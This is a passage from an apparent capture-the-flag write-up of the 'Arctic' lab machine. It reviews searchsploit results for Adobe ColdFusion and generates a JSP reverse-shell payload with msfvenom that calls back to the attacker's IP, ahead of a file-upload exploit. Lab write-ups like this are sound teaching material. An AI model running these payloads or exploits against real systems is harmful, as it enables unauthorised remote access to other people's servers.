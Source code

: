 

It's worth taking a few minutes to look at each results. Many I can
dismiss because of version mismatch or because I'm not really interested
in XSS bugs at this point. That leaves these:



    Adobe ColdFusion - Directory Traversal                                                                  | multiple/remote/14641.py
    Adobe ColdFusion - Directory Traversal (Metasploit)                                                     | multiple/remote/16985.rb
    Adobe ColdFusion 2018 - Arbitrary File Upload                                                           | multiple/webapps/45979.txt
    Adobe ColdFusion APSB13-03 - Remote Multiple Vulnerabilities (Metasploit)                               | multiple/remote/24946.rb
    ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)                                       | cfm/webapps/16788.rb
    Macromedia ColdFusion MX 6.1 - Template Handling Privilege Escalation                                   | multiple/remote/24654.txt



A little more examining of
`Adobe ColdFusion APSB13-03 - Remote Multiple Vulnerabilities (Metasploit)`
suggests it's for a different version of CF. I'll also rule out
`Adobe ColdFusion 2018 - Arbitrary File Upload`, as it relies on posting
to `/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/upload.cfm`,
and I can't find a `cf_scripts` directory on Arctic.

That leaves two vulnerabilities to explore further.

## Shell as tolis

### Generate Payload

With upload to webserver vulnerabilities, typically I would go with a
CFM webshell to get a foothold, and then get a shell from there. But
this box is so painfully slow, that I want to get away from CF as
quickly as possible. JSP payloads typically work on CF, so I'll create
one with `msfvenom`:



    root@kali# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.47 LPORT=443 -f raw > shell.jsp
    Payload size: 1496 bytes



### Path 1: Unauthenticated RCE

#### Exploit Analysis

The most direct path to RCE on Arctic is via the Execution
vulnerability:



    ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)                                       | cfm/webapps/16788.rb
